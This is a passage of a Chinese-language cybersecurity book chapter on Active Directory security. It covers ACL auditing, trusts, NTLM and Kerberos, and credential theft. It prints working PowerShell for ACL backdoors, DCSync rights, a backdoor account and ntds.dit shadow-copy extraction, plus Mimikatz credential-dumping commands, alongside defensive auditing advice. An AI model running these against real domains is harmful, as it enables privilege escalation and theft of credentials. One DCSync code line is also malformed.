比如，假设一个攻击者已经访问了 AD，并希望授予自己对特定 OU 中的对象的读取和修改权限。假设攻击者事先控制了**PSSec\vvega**账户，因此他们使用该账户授予自己读取和修改对象的权限，攻击者可以通过访问 OU 的 ACL 来轻松完成此操作，以下是一个示例：

```
$TargetOU = "OU=Accounts,OU=Tier 0,DC=PSSec,DC=local"
$AttackerIdentity=[System.Security.Principal.NTAccount]'PSSec\vvega'
$Ou = [ADSI]"LDAP://$TargetOU"
$Sec = $Ou.psbase.ObjectSecurity
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, "ReadProperty, WriteProperty", "Allow")
$Sec.AddAccessRule($Ace)
$Ou.psbase.CommitChanges()
```

为了授予**PSSec\vvega**账户对**OU=Accounts,OU=Tier 0,DC=PSSec,DC=local**组织单位（OU）的控制权限，攻击者首先将其指定为目标 OU。接下来，他们检索该 OU 的对象安全性，创建一个新的**ActiveDirectoryAccessRule**规则，赋予攻击者读取和写入属性的权限，将访问控制规则添加到对象安全性中，最后提交更改，以授予攻击者对该 OU 的访问权限。

因此，作为蓝队成员，最好定期监控哪些 ACL 已配置，并在攻击者利用它们之前修复这些配置。

### 监控和枚举 OU 权限

为此，我编写了**Get-OuACLSecurity.ps1**脚本，可以在本书的 GitHub 仓库中找到：[链接](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/blob/master/Chapter06/Get-OuACLSecurity.ps1)。

它依赖于**Get-ADOrganizationalUnit**和**Get-ACL** cmdlet。

使用 **Get-ADOrganizationalUnit**，你可以查看名称、区别名以及链接的 GPO：

```
> Get-ADOrganizationalUnit -Filter * | Out-GridView
```

如果你没有可用的 **ActiveDirectory** 模块，你可以使用 **[adsisearcher]** 类型加速器执行 LDAP 搜索来查询 AD。这里有一个示例，它使用 **objectCategory** 过滤器检索当前域中的所有 OU：

```
> ([adsisearcher]"objectCategory=organizationalUnit").FindAll()
```

使用**Get-Acl**，你可以查看每个 OU 配置了哪些访问权限：

```
> Get-Acl -Path "AD:\$(<DistinguishedName>)").Access
```

评估你的环境中 OU ACL 安全性最简单的方法是运行 **Get-OuACLSecurity.ps1** 脚本，并将其导出为 **.csv** 文件，然后在 Excel 中导入和分析：

```
> .\Get-OuACLSecurity.ps1 | Export-Csv -Path C:\tmp\OuAcls.csv
```

再次说明，我已经创建了一个示例分析文件并上传到了我们的 GitHub 仓库：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06/OU-ACLs`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06/OU-ACLs)。

有些访问权限是自动生成的，因此，如果你尚未加强 AD OU 的访问权限，这是你需要尽快完成的任务。

我还在 **ACLPivot.xlsx** 文件的 *OuACLs Pivot* Power Pivot 视图中标记了一些账户，如下图所示：



图 6.7 – OU 访问权限的 Power Pivot 分析

例如，在部署 AD 时，像**账户操作员**或**打印操作员**这样的访问权限内建组会自动添加。如前一节所述，*这些内建组从哪里来？*，它们最初是为了让你的工作更轻松，但如今，它们同样让攻击者的工作变得轻松。

也配置了针对**所有人**的访问权限。这是早期遗留下来的产物，保留它是为了防止连接到旧版的 AD。你应尽早删除这些访问权限。在现代 AD 环境中，仅需**已验证用户**具有访问权限即可。

最后，如果你在环境中没有运行任何预 Windows 2000 版本的遗留系统，那么你应该删除内建的**Pre-Windows 2000 Compatible Access** 组。

## GPO ACL

GPO 是许多 AD 环境中的关键组件，因为它们用于在整个域中强制执行安全策略和配置。如果攻击者控制了一个 GPO，他们可以利用它将恶意设置传播到整个域，从而可能危及整个网络的安全。

例如，如果攻击者获取了一个有权限修改组策略访问控制的账户，他们可以使用以下演示代码将自己的账户（无论是自己创建的还是之前已经被攻破的）添加进去，从而能够更改 GPO 本身：

```
$Searcher = [adsisearcher]"(&(objectClass=groupPolicyContainer)(displayName=Default domain Policy))"
$Searcher.SearchRoot = [adsi]"LDAP://CN=Policies,CN=System,DC=PSSec,DC=local"
$Searcher.PropertiesToLoad.Add("distinguishedName") | Out-Null
$SearchResult = $Searcher.FindOne()
$DistinguishedName = $SearchResult.Properties["distinguishedName"][0]
$TargetGPO = $DistinguishedName
$AttackerIdentity=[System.Security.Principal.NTAccount]'PSSec\vvega'
$Gpo = [ADSI]"LDAP://$TargetGPO"
$Sec = $Gpo.psbase.ObjectSecurity
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, "GenericAll", "Allow")
$Sec.AddAccessRule($Ace)
$Gpo.psbase.CommitChanges()
```

代码片段首先使用 ADSI 搜索器查找默认域策略的可分辨名称，并将其设置为权限更改的目标 GPO。然后，它在 **$AttackerIdentity** 变量中指定攻击者的身份，并创建一个新的访问规则，授予攻击者对目标 GPO 的 **GenericAll** 权限。**GenericAll** 权限是一种预定义的安全原则，授予对特定对象或资源的所有可能访问权限；换句话说，它提供对对象的完全控制。

最后，脚本将更改提交到 GPO 的对象安全性，实际上授予攻击者对默认域策略的完全控制。这可能使攻击者修改 GPO 的设置，包括安全设置，并可能接管整个域的控制。

请确保定期检查您域中的 GPO ACL。您可以通过组合 **Get-Gpo** 和 **Get-GPPermission** cmdlet 来查看 GPO 访问权限，这些 cmdlet 是 **GroupPolicy** 模块的一部分。可以通过安装 RSAT 工具来安装 **GroupPolicy** 模块。有关此模块的更多信息，请访问：[`docs.microsoft.com/en-us/powershell/module/grouppolicy/`](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/)。

作为审计 GPO 访问权限的示例，我编写了一个脚本并将其上传到本书的 GitHub 仓库：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-GpoAcls.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-GpoAcls.ps1)。

类似于 OU ACL 示例，您可以在 Excel 中创建一个数据透视表来评估您环境中的 GPO ACL。

## 域 ACLs

另一个特别关注的是配置在 AD 域本身的访问权限。这些访问权限控制谁有权限在域中复制对象或执行其他敏感的域操作。**domainDNS** 访问控制列表（ACLs）至关重要，因为它们赋予域控制器和域管理员在域内执行所有必要功能和操作的能力。

此外，通常在域根目录授予的访问权限会被所有子对象继承；因此，直接在根目录级别调整它们是有意义的。

您可以使用以下命令审计域级别上配置的 ACL：**(Get-Acl -Path "AD:\$((Get-ADdomain).DistinguishedName)").Access |** **Out-GridView**。

### DCSync

DCSync 攻击是一种技术，攻击者模拟域控制器的行为，诱使其他域控制器复制 AD 特定的信息（例如，**NT Lan Manager**（**NTLM**）哈希值和其他凭证相关数据）到攻击者。此攻击利用了 **Microsoft Directory Replication Service Remote**（**MS-DRSR**）协议，这是 AD 的一个基本且合法的功能，因此无法简单地禁用。

DCSync 攻击允许攻击者模拟域控制器并请求特定用户的密码数据，即使攻击者没有直接访问该用户的计算机或账户。攻击者可以利用这些哈希值在网络中进行横向移动和权限升级。

为了执行此攻击，攻击者必须在域中拥有较高的权限。获取这些权限的一种方式是通过创建后门账户，后门账户可以绕过安全控制并授予攻击者更高的权限。

首先，我们创建一个新用户账户，**"backdoor"**，它应作为攻击者的 **backdoor** 账户：

```
$AttackerName = "backdoor"
$AttackerPassword = Read-Host -AsSecureString
$AttackerDescription = "Backdoor account for DCSync attack"
$AttackerPath = "OU=Service Accounts,OU=Tier 0,DC=PSSec,DC=local"
New-ADUser -Name $AttackerName -AccountPassword $AttackerPassword -Description $AttackerDescription -Path $AttackerPath -Enabled $true
```

接下来，我们创建将在 DCSync 攻击中使用的变量。首先，我们检索之前创建的后门用户的名称，并将其保存在 **$AttackerIdentity** 变量中，以备后用，使用 **NTAccount** 类。

现在，我们连接到域的根目录并检索域的区分名称。我们创建一个 **$ReplAddGUID** 变量来保存“Replicating Directory Changes All”扩展权限的 GUID（**1131f6ad-9c07-11d1-f79f-00c04fc2dcd2**）。我们还创建变量来指定 DCSync 攻击所需的访问控制类型：

```
$AttackerIdentity = System.Security.Principal.NTAccount.Name).ToString()
$Dsa = [ADSI]"LDAP://rootDSE"
$domainDN = $Dsa.defaultNamingContext
$ReplAllGUID = "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
$ObjRights = "ExtendedRight"
$ObjControlType  = [System.Security.AccessControl.AccessControlType]::Allow
$ObjInherit = [System.DirectoryServices.ActiveDirectorySecurityInheritance]"All"
```

最后，我们使用攻击者的身份、访问权限、控制类型、继承性以及预定义的 GUID 值创建一个 AD 访问规则。然后，我们使用域名获取域目录对象的安全描述符，将访问规则添加到安全描述符的 DACL 中，并保存对目录对象的更改：

```
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, $ObjRights, $ObjControlType , $ObjInherit, $ReplAllGUID)
$Dacl = [ADSI]"LDAP://$domainDN"
$Dacl.psbase.ObjectSecurity.AddAccessRule($Ace)
$Dacl.psbase.CommitChanges()
```

现在，访问权限已相应配置，攻击者可以使用像 Mimikatz 这样的工具提取密码哈希值。

Mimikatz 是一款臭名昭著的工具，最初由 Benjamin Delpy 编写，DCSync 功能由 Vincent le Toux 编写。你可以从 GitHub 下载源代码以及二进制文件：[`github.com/gentilkiwi/mimikatz/wiki`](https://github.com/gentilkiwi/mimikatz/wiki)。

一旦下载了二进制文件或使用源代码构建，导航到 **mimikatz.exe** 文件所在的文件夹并执行它：

```
> .\mimikatz.exe
```

Mimikatz 被加载，现在可以输入你的 **mimikatz** 命令。以下命令允许你执行 DCSync 攻击：

```
> lsadump::dcsync /all /csv
```

理解、监控和保护域 ACL 对于防止未授权访问和数据泄露至关重要。然而，考虑到域信任同样重要，若配置和监控不当，域信任可能会带来额外的安全风险。

## 域信任

信任是将林和域相互连接的好方法。通过信任，你可以访问另一个林的资源，而无需在该林中拥有帐户。关于信任的更多信息可以在这里找到：[`docs.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust`](https://docs.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust)。

但信任也带来了更多人员访问你资源和可能访问你身份的风险。因此，你应该定期审计可用的信任，并删除不再需要的信任。

使用**Get-ADTrust** cmdlet，它是**ActiveDirectory**模块的一部分，你可以查看从你的域到其他域/林建立的信任：

```
> Get-ADTrust -Filter *
```

除了使用**Get-ADTrust** cmdlet，你还可以使用**[adsisearcher]**加速器来查看已建立的信任，特别是在**ActiveDirectory**模块不可用的情况下。使用以下命令来过滤受信任的域：

```
> ([adsisearcher]"(objectClass=trusteddomain)").FindAll()
```

信任可以有多个方向：

+   **双向**：两个域/林相互信任。用户可以访问两个域/林中的资源。

+   **入站**：当前的域/林是受信任的域或林。这意味着来自受信任域/林的用户可以访问当前域/林中的资源，但反之则不行。

+   **出站**：当前的域/林是被信任的域/林；来自该域/林的用户可以访问另一个被信任的域/林中的资源。

对于单向信任，如果我们说**Company**域信任**PartnerCompany**域，这意味着来自**PartnerCompany**域的定义用户可以访问**Company**域中的资源，但反之则不行。

当然，这不是 AD 枚举方法的完整列表，但它应该有助于入门。如果你对其他枚举选项感兴趣，以下博客文章是一个很好的资源：[`adsecurity.org/?p=3719`](https://adsecurity.org/?p=3719)。

# 凭证窃取

攻击者通常追求的第一个目标之一是提取身份并利用这些身份进行横向移动，从而获取更多身份，并重复此过程，直到找到高度特权的凭证（例如域管理员凭证），然后控制 AD，进而迅速控制整个环境。

在本节中，我们将研究本地 AD 环境中的身份验证基础知识，以及凭证相关攻击的工作原理。

## 身份验证协议

**横向移动**、**哈希传递**、**票据传递**——这些攻击不仅限于 PowerShell，因此它们不是 PowerShell 特有的问题。但由于 PowerShell 依赖与普通身份验证相同的身份验证机制，因此了解背后的机制非常重要。

当我们谈论身份验证时，我们正在深入探讨协议的内容。阅读完这些章节后，你可能还不是身份验证协议的专家，但你会理解 **凭证窃取** 攻击是如何可能发生的。

要开始，了解一般存在哪些身份验证协议是很重要的。最常用的协议是 **NT LAN Manager** (**NTLM**) 和 **Kerberos**，但在一些环境中，遗留的 **LAN Manager** 身份验证仍然被允许。

协议方面，我建议使用 Kerberos，并在无法使用时退回到 **NTLMv2**。在确认这些协议不再在你的环境中使用后，禁用 LAN Manager 和 **NTLMv1** 的使用（是的，我知道——这可能是一个漫长的过程）。

### LAN Manager

LAN Manager 是一个非常古老的协议，它在 1987 年被实现，现在已经过时并被弃用。如果使用 LAN Manager 进行身份验证，攻击者很容易猜测出原始密码：LAN Manager 密码可以在几分钟内被暴力破解。

幸好，古老且脆弱的 LAN Manager 身份验证如今几乎不再使用。当我评估客户环境的安全风险时，我很高兴只在少数环境中发现了这个遗留协议——例如，由于过时的软件或仍在使用且无法更换的旧机器。

在从 LAN Manager 或 NTLMv1 迁移到 NTLMv2 时要小心！

不要在没有适当迁移计划的情况下，仅仅禁止在你的环境中使用 LAN Manager 或 NTLMv1。审计仍在使用 LAN Manager 或 NTLMv1 的系统，然后首先将这些系统迁移到更新的协议，再强制使用 NTLMv2。

我不会详细描述 LAN Manager；它已经过时，真的不应该再使用。如果你在你的环境中发现了 LAN Manager，请确保制定一个计划来降低这个风险，并开始迁移到 NTLMv2。

### NTLM

NTLM 是基于挑战/响应的身份验证协议。它是 **Windows NT 4.0** 及更早版本 Windows 的默认身份验证协议。

NTLM 有两个版本可以使用：NTLMv1 和 NTLMv2。如今 NTLMv1 被认为是不安全的，应该使用 NTLMv2，并建议在企业环境中禁用 NTLMv1，以及 LAN Manager。

如果我们看看基本功能，NTLM 版本 1 和 2 的工作原理非常相似：

1.  在登录时，客户端将明文用户名发送到服务器。

1.  服务器生成一个随机数（*挑战* 或 *nonce*）并将其发送回客户端。

1.  用户密码的哈希值用于加密从服务器收到的挑战，并将结果返回给服务器（*响应*）。

使用 NTLMv1 时，客户端将挑战 *原封不动* 传送，添加客户端随机数（*客户端随机数 + 服务器随机数*），使用 **数据加密标准**（**DES**）加密后返回。

使用 NTLMv2 时，客户端将其他参数添加到挑战中：(*客户端随机数 + 服务器随机数 + 时间戳 + 用户名 + 目标*)，然后使用 HMAC-MD5 对其进行哈希处理并返回。这些附加参数可以保护会话免受重放攻击（即数据被重复或延迟攻击）。

1.  用户尝试登录的服务器（如果是域账户，服务器是域控制器）将以下三项发送给认证服务器，以验证请求的用户是否被允许登录：

    +   **用户名**

    +   **挑战**（发送给客户端的）

    +   **响应**（从客户端接收到的）

如果账户是本地账户，服务器将自行验证用户。如果账户是域账户，服务器将挑战和认证响应转发给域控制器进行认证。请注意，本地账户也可以使用 NTLM；在这种情况下，客户端计算机本身也可以是客户端认证的服务器。

1.  服务器或域控制器查找用户名并从 **安全账户管理器**（**SAM**）数据库中获取对应的密码哈希值，使用该哈希值来加密/哈希挑战。

1.  服务器或域控制器将之前计算的加密/哈希挑战与客户端计算的响应进行比较。如果两者相同，则认证成功。

如果您想了解更多关于 LAN Manager 为什么如此脆弱，NTLMv1 和 NTLMv2 之间的区别，以及为什么 LAN Manager 和 NTLMv1 不应再使用，您可以在我写的博客文章中了解更多：[`miriamxyra.com/2017/11/08/stop-using-lan-manager-and-ntlmv1/`](https://miriamxyra.com/2017/11/08/stop-using-lan-manager-and-ntlmv1/)。

配置认证协议时要小心

当然，在禁用 LAN Manager 和 NTLMv1 之前，您应该分析这些协议是否仍在使用。在提到的博客文章中，您还将找到有关如何审计哪些协议仍在使用的最佳实践。

如果可能，仅使用 Kerberos 进行域认证。如果无法使用（因为目标不是域成员或没有 DNS 名称），则配置回退到 NTLMv2 并禁止使用 LAN Manager 和 NTLMv1。

### Kerberos

在希腊神话中，Kerberos 是一只三头的地狱猎犬，它守卫着冥界的入口，阻止活人进入，也阻止死人离开。

因此，这个著名的地狱犬的名字在认证方面非常贴切，因为认证协议 Kerberos 也由三个阶段组成：使用 Kerberos 进行身份验证需要三个阶段。

虽然 NTLM 是一种挑战-响应认证机制，但 Kerberos 认证是 **票证** 基于的，并依赖于第三方实体 **密钥分发中心**（**KDC**）的验证。

票证是加密的 **二进制大对象**（**blobs**）。它们不能被票证持有者解密，而是作为 Kerberos 协议的身份验证证明。只有票证接收者（例如，域控制器）可以使用对称密钥解密票证。

KDC 是负责实施 Kerberos 协议中定义的认证和票证授予服务的 Kerberos 服务。在 Windows 环境中，KDC 已集成在域控制器角色中。

在我们深入了解 Kerberos 认证如何工作之前，我们需要明确一些术语。

#### Kerberos 术语

以下是一些重要的 Kerberos 术语：

+   **票证授予票证**（**TGT**）：TGT 可用于从 TGS 获取服务票证。在 **认证服务**（**AS**）交换中的初始认证之后，创建一个 TGT。一旦系统中存在 TGT，用户无需再次输入凭证，而可以使用 TGT 来获取未来的服务票证。

+   **票证授予服务**（**TGS**）：TGS 可以发放服务票证，用于访问其他服务，无论是在 TGS 自身所在的域中，还是访问另一个域中的 TGS。

+   **服务票证**：服务票证允许访问除 TGS 外的任何服务。

+   **权限属性证书**（**PAC**）：PAC 提供了票证授权数据字段中特定授权数据的描述。PAC 仅适用于 Microsoft 环境中的 Kerberos 认证。PAC 包含多个数据组件，例如包括用于授权的组成员数据或用于非 Kerberos 认证协议的替代凭证。

+   **密钥**：密码是密钥的典型例子：它是一个持久的对称加密密钥，在两个实体之间共享（例如，用户和域控制器之间）。

#### Kerberos 认证的三个阶段

Kerberos 认证由三个阶段组成：AS 交换、TGS 交换和客户端服务器认证。



图 6.8 – Kerberos 认证的三个阶段

**第一阶段：** **AS 交换**

该阶段每次登录会话中仅执行一次，并包括两个步骤：

1.  **KRB_AS_REQ**（Kerberos 认证服务请求）：客户端向认证服务器（KDC）发起请求，以获取 TGT。TGT 是一个带有时间限制的票证，包含客户端的身份信息和 SID。默认情况下，TGT 可以续期最长 7 天，并且每个 TGT 有效期为 10 小时。

1.  **KRB_AS_REP**（Kerberos 认证服务回复）：KDC 创建并返回 TGT 以及与 KDC 通信的会话密钥。TGT 的默认有效期为 10 小时。

**第 2 阶段：** **TGS 交换**

第 2 阶段每个服务器会话只执行一次。这意味着只要在同一服务器上请求资源，就不需要重复此步骤。该阶段的两个步骤如下：

1.  **KRB_TGS_REQ**（Kerberos 票证授予服务请求）：客户端向 KDC 请求一个 Kerberos TGS。请求包括一个 TGT、一个身份验证器和目标服务器的名称，即**服务主体名称**（**SPN**）。身份验证器包括用户的 ID 和时间戳，两者都使用先前共享的会话密钥进行加密。

1.  **KRB_TGS_REP**（Kerberos 票证授予服务回复）：在收到 TGT 和身份验证器后，KDC 验证两者的有效性，并继续向客户端发放票证和会话密钥。

身份验证 = 授权

需要牢记的是，身份验证和授权是完全不同的过程。身份验证确认用户身份，而授权则授予用户访问资源的权限。

**第 3 阶段：** **客户端-服务器认证**

在 Kerberos 认证的第三阶段，要求访问某个资源。此步骤每次服务器连接时执行一次。这意味着如果你断开与服务器的连接并重新连接，则需要重复此步骤：

1.  **KRB_AP_REQ**（Kerberos 应用请求）：客户端将票证发送给目标服务器，以发起访问请求。随后，服务器解密票证，验证身份验证器，并使用票证中的 SID 为用户生成访问令牌。

1.  **KRB_AP_REP**（Kerberos 应用回复，*可选*）：客户端可以选择请求双向认证，促使目标服务器验证其身份。在这种情况下，目标服务器使用 TGS 提供的会话密钥加密来自身份验证器的客户端计算机时间戳，用于客户端与目标服务器的通信。加密后的时间戳然后返回给客户端进行身份验证。

#### 用户身份验证与服务身份验证

有两种不同类型的票证可用于身份验证：用户身份验证和服务身份验证。如果用户需要进行身份验证，则会发放 TGT。当服务需要进行身份验证时，会发放服务票证，这是一种专为服务身份验证设计的票证。

## 攻击 AD 认证——凭证窃取和横向移动

随着时间的推移，系统变得更加安全，如今几乎不可能通过足够的零日漏洞来从互联网访问公司，身份变得越来越重要。环境变得越来越安全，因此攻击者寻找最薄弱的环节 - 人类。

在**钓鱼**攻击中，用户会被诱使打开链接并安装软件，例如启用宏，以便对受感染的系统执行对手的代码。在大多数情况下，被陷害的用户是一个普通用户账户，对攻击者来说并不是很有价值。

因此，攻击者希望获得更有价值的账户，并横向移动以获取更多身份，直到找到一个高度特权的身份 - 对攻击者来说最好的情况是域或企业管理员账户。

无论是横向移动还是凭证盗窃，都依赖于认证协议 Kerberos 和 NTLM 的功能。为了更简便的**单点登录**（**SSO**），这两种协议都将它们的认证令牌 - NTLM 哈希或 Kerberos 票据 - 存储在**本地安全** **机构**（**LSA**）中。

您可以将哈希或票据比喻为一把钥匙：如果钥匙被别人复制，那么这个人现在就可以进入您的房子并随心所欲。尽管 LSA 旨在保护凭据，但票据和哈希可以被提取和重复使用。

但它不仅仅保存在系统上；根据认证方法的不同，NTLM 哈希或 Kerberos 票据也会被转发到远程系统并存储在远程系统的 LSA 中。例如，当使用**远程桌面**进行身份验证时就会发生这种行为。

PowerShell 的一个重要优势是，如果只使用纯粹的带 WinRM 认证的 PowerShell，那么不会将哈希或票据转发到远程系统。但如果使用带 CredSSP 认证的 PowerShell WinRM，哈希或票据将被转发到远程主机并存储在其 LSA 中。这使得潜在的攻击者也可以从远程系统中提取凭据。

通常，使用 CredSSP 的 PowerShell 用于解决第二次跳转问题。但选择这种方法会暴露您的凭据，因此应避免使用 CredSSP。如果您想了解有关 PowerShell 中第二次跳转问题的更多信息，请参考此文档：[`docs.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop`](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop)。

在当前系统上输入凭据时也要小心。如果您以不同账户运行进程（**runas**），则需要输入本地存储在 LSA 中的凭据 - 类似于创建计划任务或使用特定账户运行工具作为服务。

现在你已经了解了用于身份验证的协议及其工作原理，让我们来看看针对 AD 身份验证的不同攻击方式。

### ntds.dit 提取

**ntds.dit**是包含 AD 中所有身份和哈希值的数据库。这意味着，如果攻击者获得了该数据库，他们就能控制环境中的所有身份——也就控制了整个环境。

但是，要获得**ntds.dit**，对手不能仅仅复制该文件，因为它被 AD 持续使用，因此是锁定的。

有许多方法可以访问**ntds.dit**。一种方法是从备份中提取它——例如，使用**卷影复制**。这也是为什么严格控制谁能够备份和恢复域控制器数据至关重要的原因。

如果域控制器的硬盘未加密且不位于安全位置，任何有物理访问权限的人都可以提取该数据库。

如果一个**域控制器**（**DC**）作为虚拟机托管，并且硬盘没有加密，那么每个虚拟化管理程序管理员都可以提取它——例如，通过使用快照或复制虚拟机并在离线位置恢复它。

如果红队成员直接访问了域控制器（例如通过凭证窃取），也可以通过各种方法提取**ntds.dit**。在接下来的示例中，我们将展示如何使用 PowerShell 实现这一目标。

由于我们无法在操作系统使用**ntds.dit**时访问它，因此我们首先使用**Invoke-CimMethod**创建一个**C:\**驱动器的影像复制点，并调用**Win32_ShadowCopy**类的**Create**方法。影像复制是特定时间点上驱动器内容的副本。

然后我们获取新创建的影像复制路径，并将其保存到**$****ShadowCopyPath**变量中。

最后，我们在**C:\**驱动器的根目录下创建一个名为**shadowcopy**的符号链接，指向影像复制点的路径：

```
$ShadowCopy = Invoke-CimMethod -ClassName "Win32_ShadowCopy" -Namespace "root\cimv2" -MethodName "Create" -Arguments @{Volume="C:\"}
$ShadowCopyPath = (Get-CimInstance -ClassName Win32_ShadowCopy | Where-Object { $_.ID -eq $ShadowCopy.ShadowID }).DeviceObject + "\\"
cmd /c mklink /d C:\shadowcopy "$ShadowCopyPath"
```

现在，红队成员可以不受限制地访问**ntds.dit**文件，将其外泄，或提取哈希值进行后续的*pass-the-hash*攻击。在这个例子中，我们将它复制到**C:\tmp**文件夹中：

```
Copy-Item "C:\shadowcopy\Windows\NTDS\ntds.dit" -Destination "C:\tmp"
```

你可以看到文件已成功提取，如下图所示：


图 6.9 – 验证 ntds.dit 是否已成功提取

最后，我们删除符号链接：

```
(Get-Item C:\shadowcopy).Delete()
```

还有很多方法可以提取**ntds.dit**，例如以下几种：

+   使用默认内置的**ntdsutil**诊断工具

+   从**卷影复制服务**（**VSS**）提取**ntds.dit**——如我们在前面的例子中所做的那样

+   从离线硬盘复制**ntds.dit**

+   创建并恢复快照，并从中提取文件

+   从备份中提取**ntds.dit**

这些只是攻击者可以提取**ntds.dit**数据库的几种方法。这也是为什么严格控制对域控制器备份的访问如此重要的原因，如果它们是虚拟机，则严格限制对 VM、存储和快照的访问。

要减轻这些类型的攻击，真正有帮助的唯一措施是控制访问并保持良好的凭据卫生。

如果**ntds.dit**文件被攻击者提取，唯一有帮助的是受控的妥协恢复并两次重设**krbtgt**账户的密码。

### krbtgt

在**ntds.dit**数据库中，还有另一个重要的账户：**krbtgt**账户。该账户作为 KDC 的默认服务账户，执行 KDC 的必要功能和操作。该账户的 TGT 密码仅由 Kerberos 知晓。

但是如果提取了此帐户的哈希，这将使对手能够以 KDC 的身份签署票据请求并启用**黄金票据**。

### 黄金票据

在黄金票据攻击中，恶意行为者使用 Kerberos 票据来控制有效域的密钥分发服务。这使得攻击者可以访问 AD 域上的任何资源（因此得名*黄金票据*）。

如果攻击者控制了 AD 数据库或其备份，他们可能会生成 Kerberos TGT 或/和服务票据。

值得注意的是，具有复制所有属性权限的任何帐户（包括域管理员帐户）也可以执行此活动。此权限通常授予位于域根目录下的**domainDNS**对象。

在此级别授予权限可能特别危险且具有影响力，因为它可能会给攻击者在域上完全控制的能力。

通过这样做，对手可以冒充受损域中的任何用户或机器，并访问该域或任何受信任域中的所有资源。

### 银票据

如果对手获得了系统的管理员权限或对未加密硬盘的系统的物理控制，他们可以使用机器密码伪造 TGS 票据。

他们还可以篡改包含在票据 PAC 中的详细信息。这将使对手能够任意生成 Kerberos TGS 票据或操纵包含在 PAC 中的授权详细信息，例如将帐户的组成员身份更改为高权限帐户（如域管理员）。

### 横向移动

在提取哈希或票据后，攻击者尝试使用它来获取访问权限并登录到另一个系统。这个过程称为横向移动。

一旦获得对另一个系统的访问权限，一切又重新开始；对手尝试从 LSA 中提取所有现有凭据，并用它来对其他系统进行身份验证。

攻击者的目标是找到一个高度特权的身份——对攻击者而言，最理想的是域管理员或企业管理员的身份。

### Pass the Hash（PtH）

正如您所学的，对于 NTLM 身份验证以及 LAN Manager 身份验证，会生成一个哈希值，使您能够进行身份验证以访问资源和登录。此哈希值存储在 LSA 中，由**本地安全机构子系统服务**（**LSASS**）进程管理，可以快速访问以实现 SSO。

如果对手从 LSA 提取了该哈希，则可以将其传递到另一个系统，用于以哈希创建的用户身份进行身份验证。

检测*Pass-the-Hash*攻击非常困难，因为在目标系统上，一切看起来像是一次合法的身份验证。

要从 LSA 提取哈希，执行此操作的帐户需要以管理员或系统权限运行。许多命令还需要调试权限。

有许多工具可以与 LSA 交互以提取密码哈希。最著名的之一是 Mimikatz。虽然**Mimikatz.exe**是由 Benjamin Delpy（**gentilkiwi**）编写的，但**lsa**模块中的 DCSync 功能是由 Vincent le Toux 编写的：[`github.com/gentilkiwi/mimikatz/wiki`](https://github.com/gentilkiwi/mimikatz/wiki)。

Joseph Bialek 编写了**Invoke-Mimikatz.ps1**脚本，使得所有**mimikatz**功能都可以通过 PowerShell 使用。**Invoke-Mimikatz**是 PowerSploit 模块的一部分，可以在 GitHub 上下载：[`github.com/PowerShellMafia/PowerSploit`](https://github.com/PowerShellMafia/PowerSploit)。

尽管该模块不再受支持，但它仍包含许多有价值的脚本，可用于通过 PowerShell 进行渗透测试。

要安装 PowerSploit，只需下载该模块并将其粘贴到以下路径下：**$Env:windir\System32\WindowsPowerShell\v1.0\Modules**（在常规系统上通常是**C:\Windows\System32\WindowsPowerShell\v1.0\Modules**）。当您下载 PowerSploit 的**.zip**文件时，该文件名为**PowerSploit-master**，因此您需要在将其粘贴到模块路径前将文件夹重命名为**PowerSploit**：**C:\Windows\System32\WindowsPowerShell\v1.0\Modules\PowerSploit**。

使用**Import-Module PowerSploit**将其导入到当前会话中。请注意，它只能在 Windows PowerShell 中导入，并在 PowerShell Core 中抛出错误。

递归解锁模块

如果您的执行策略设置为**RemoteSigned**，则禁止执行远程脚本，以及执行从互联网下载的脚本或导入模块。要递归解锁**PowerSploit**模块文件夹中的所有文件，请运行以下命令：

**Get-ChildItem -Path "$Env:windir\System32\WindowsPowerShell\v1.0\Modules\PowerSploit\" -Recurse |** **Unblock-File**

一旦成功导入 PowerSploit，你可以使用 **Invoke-Mimikatz** 来转储本地计算机上的凭证：

```
> Invoke-Mimikatz -DumpCreds
```

使用 **-ComputerName** 参数，你可以指定一个或多个远程计算机：

```
> Invoke-Mimikatz -DumpCreds -ComputerName "PSSec-PC01"
> Invoke-Mimikatz -DumpCreds -ComputerName @(PSSec-PC01, PSSec-PC02)
```

你还可以使用 **Invoke-Mimikatz** 来运行通常也可以在 Mimikatz 二进制文件中使用的命令，例如在远程计算机上提升权限：

```
> Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "PSSec-PC01"
```

通常情况下，所有在普通二进制版本的 **mimikatz.exe** 中可以执行的命令，都可以在 PowerShell 版本中使用 **-Command** 参数执行。

由于 **Invoke-Mimikatz** cmdlet 仅在 Windows PowerShell 中有效，而在 PowerShell 7 及更高版本中无效，并且存在更多限制（例如，它只能从当前会话中提取凭证），我们将在演示中切换到 Mimikatz 的二进制版本。

下载二进制文件或从源代码构建后，进入 **mimikatz.exe** 文件所在的目录，并通过键入以下命令执行：

```
> .\mimikatz.exe
```

这将加载 Mimikatz，允许你输入命令以执行其各种功能：

```
> log
> privilege::debug
> sekurlsa::logonpasswords
```

Mimikatz **log** 命令启用或禁用 Mimikatz 日志。默认情况下，日志记录是禁用的。当启用日志时，Mimikatz 会将其输出写入日志文件。如果没有指定日志文件（如本示例所示），则会将 **mimikatz.log** 写入 Mimikatz 被调用的文件夹中。

**privilege::debug** 命令为当前进程启用调试权限，这是访问系统上某些敏感信息所必需的。**sekurlsa::logonpasswords** 命令用于检索当前在内存中存储的、活跃登录会话的明文密码。

